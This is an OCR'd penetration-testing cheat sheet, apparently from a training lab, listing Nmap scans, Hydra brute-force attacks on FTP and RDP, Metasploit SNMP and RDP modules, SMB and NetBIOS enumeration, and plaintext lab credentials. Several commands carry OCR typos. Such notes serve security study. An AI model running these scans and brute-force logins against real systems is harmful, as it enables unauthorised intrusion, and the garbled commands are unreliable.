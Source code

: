 **Scanning Network using Nmap**

Scanning network Live Host (ping sweep): nmap -sP IP/CIDR  
Scanning Live Host without port scan in same subnet (ARP scan) : nmap -PR -sn IP/CIDR
Scripts + Version running on target machine: nmap -sC -sV IP/CIDR  
OS of the target: nmap -O IP  
All open ports of the target: nmap -p- IP/CIDR  
Specific port scan of the target: nmap -p<port-number> IP/CIDR  
Aggressive Scan: nmap -A IP/CIDR  
Scanning using NSE scripts: nmap --scripts <script_name> -p <port> IP/CIDR  
Scripts + Version + Ports + OS Scan (Overall): nmap -sc -sv -p- -A -v -T4 IPICIDR  

**Brute force ftp**  
nmap -sc -p 21 192.135.117.3  
hydra -L /usr/share/wordlists/metasploit/canron_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.135.117.3 ftp  

**SNMP Check-enumeration**  
snmp-check 192.151.62.3 
nmap -sU -p 161 --script=smnp-processes 192.151.62.3  

**SNMP Exploit**  
msf5 > use auxiliary/scanner/snmp/snmp_login  
set RHOSTS 192.151.62.3
exploit  

**SMB Enumeration**  
nmap 10.4.29.134 (smb runns on 445 port)  
nmap -p 445 --script smb-enum-shares 10.4.29.134  
next step to Connect SMB using GUI Method  
next step Gredentials from ftp step  

**Enumerating users**  
nmap -p 445 --script smb-enum-users 10.4.29.134  
nmap -p 445 --script smb-enum-users --script-args smbusername=administrator, smbpassword=smbserver_771 10.4.29.134 (getting users from machine)    
nmap -p 445 --script smb-enum-groups --script-args smbusername=administrator, smbpassword=smbserver_771 10.4.29.134 (getting groups and users from machine)  

**What to Hack?**  
Network File shares  
Logged in Users details  
Workgroups  
security level informationl  
Domains & Services  

nmap -sC -sV -A -T4 -p445 10.4.29.134  
nmap -p 445 --script smb-enum-services --script-args smbusername=administrator, smbpassword=smbserver_771 10.4.29.134  

**Exploiting RDP Service**  
Remote Desktop Protocol : 3389  
Protocol used for remotely accessing the computers  

msfconsole  
use auxiliary/scanner/rdp/rdp_scanner  
set RHOSTS 10.5.17.119  
set RPORT 3333  
exploit (it show if RDP is running on this target)  
next step is to run Hydra tool to brute force  
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://lO.5.17.119 -s 3333  
next step to initialize an RDP session  
xfreerdp /u:administrator /p:qwertyuiop /v: 10.5.17.119:3333  

**NetBIOS Enumeration**  
Port - 137/138/139  
NBName: 137/UDP  
NBName: 137/TCP  
NBDatagram: 138/UDP  
NBSession: 139/TCP  
Network Basic Input Output System  
Facilitates and allows computer to connect over the local network, access shared
resources, such as files and printers, and to find each other.  

nmap -sV --script nbstat.nse 192.72.120.3  



